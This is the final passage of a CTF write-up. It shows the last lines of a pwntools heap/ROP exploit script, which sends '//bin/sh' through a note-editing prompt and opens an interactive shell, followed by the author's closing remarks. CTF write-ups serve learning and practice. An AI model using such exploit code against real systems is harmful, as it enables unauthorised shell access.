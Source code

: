 ```python
sleep(3)
## for calling edit in the rop
p.sendafter("Note ID: ", "//bin/sh")
## may also be needed, threads are being weird - i think our heap note thread is intercepting our stdin >:(.
#p.send("//bin/sh")
#p.send("//bin/sh")


p.interactive()
```

Note: I sent "//bin/sh" because for some reason the first "/" wasnt sending properly. Still dont know why - it works tho.

# Closing thoughts

This CTF was fun. I was expecting this challenge to be a lot more painful, but I guess thats just what CTF does to your brain lol. 

Thanks for reading, see you again... Soon... Maybe :P.


